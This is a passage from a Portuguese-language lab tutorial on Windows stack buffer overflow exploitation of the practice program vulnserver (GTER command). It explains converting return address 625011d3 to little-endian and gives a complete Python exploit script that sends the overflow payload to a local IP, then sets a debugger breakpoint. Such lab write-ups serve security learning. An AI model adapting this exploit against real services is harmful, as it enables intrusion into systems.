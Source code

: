 ![Enumaração do comando.](/img/std/winbof/winbof-28.png)

Encontramos nossos 9 bons endereços de retorno.

## INSERINDO O ENDEREÇO DE RETORNO NO PAYLOAD

Em posse do endereço de retorno, vamos adicionar um deles no lugar de nossos B, eu vou utilizar o 625011d3, porém a notação para envio tem que ser em little indian, portanto os bytes tem ordem inversa, ficando: `\xd3\x11\x50\x62`.

Vamos atualizar o exploit.

xplgter.py:

```python
#!/usr/bin/python3

import socket

# variaveis de conexao
ip = "192.168.1.26"
porta = 9999

# payload a ser enviado
offset = 147

payload = b"GTER /.:/" # funcao inicial
payload += b"A" * offset # buffer
payload += b"\xd3\x11\x50\x62" # endereco de retorno
payload += b"C" * (309 - 147 - 4) # segundo buffer

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip,porta))

print("Enviando payload...")

s.send(payload + b"\r\n")
s.close()

print("Payload enviado!")
```

Precisamos reiniciar o vulnserver no Immunity, mas antes de rodar nosso script, vamos setar um breakpoint exatamente no nosso endereço de retorno: 625011d3.
(clicando em “Go to address in Disassembler”, inserindo nosso endereço de retorno e logo em seguida pressionando F2).
Agora podemos rodar nosso script.
